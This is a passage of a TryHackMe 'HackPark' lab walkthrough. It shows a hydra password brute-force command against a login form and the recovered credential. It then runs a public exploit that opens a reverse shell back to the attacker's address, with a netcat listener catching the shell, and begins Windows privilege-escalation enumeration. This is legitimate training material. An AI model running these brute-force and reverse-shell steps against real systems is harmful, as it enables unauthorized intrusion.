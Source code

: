 [*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/tryhackme/hackpark)

Based on gobuster results, I go to `http://10.10.192.95/Account/login.aspx?ReturnURL=/admin` and brute force admin's credential password.

Some user may active in the system is `Administrator, Pennywise, Admin, Hackpark, Visitor1`.

```
┌──(Hades㉿10.11.32.198)-[5.6:28.3]~/walkthrough/tryhackme/hackpark
└─$ hydra -L users.txt -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou-30.txt 10.10.192.95 http-form-post '/Account/login.aspx:__VIEWSTATE=u%2Bg4t0W3qxAW3PECKLL0iq6XpDhzZWFzKEPQP2y16WH8I1gWd6wljTdOC0kamnXFmJNqhSqXe8Y93uvTfpuU%2FbGbnKb9ha%2FLtNNZvoxakyymix9j4okCpQcEYSsCGnkhWJkt02vqX3VMYKZXkVDs9GpfrfSAum8Gk9V%2FJzLsFU%2BFVNz0&__EVENTVALIDATION=XWG4XEGx3vkstzRKxm%2Bd2ATu0D%2FxXFsUyTNNDa8YIE94CqTjspwHvbfaptpY5i4BftorvtRQeMbUZLNF3bVofOToGAPwlbr6o1jhRwU5F6L1l%2FIqeELlNZuZDqoE%2Fv2Hn57xoQH3VNkmVM%2FSxdo3pGiowXAqdBNvGR7Do5fLMjuYP8GP&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed' -I -t 64
<snip>
[80][http-post-form] host: 10.10.192.95   login: Admin   password: 1qaz2wsx
<snip>
```

### RCE 'theme Cookie'

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/tryhackme/hackpark)

With knowed credential and public exploit found, I used exploit `aspx/webapps/47011.py` and exeute it to get reverse shell.

```
┌──(Hades㉿10.11.32.198)-[1.6:41.6]~/walkthrough/tryhackme/hackpark
└─$ python 47011.py -t 10.10.128.40 -u admin -p 1qaz2wsx -l 10.11.32.198:443
```

At the listener, I have reverse shell

```
┌──(Hades㉿10.11.32.198)-[1.6:41.7]~
└─$ sudo nc -nvlp 443
listening on [any] 443 ...
connect to [10.11.32.198] from (UNKNOWN) [10.10.128.40] 49352
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>
whoami
c:\windows\system32\inetsrv>whoami
iis apppool\blog
```

## Privilege Escalation

### Local enumeration

Enum folder `Program Files` and `Program Files (x86)`. At folder `rogram Files (x86)`, I saw program SystemScheduler had been instaled.
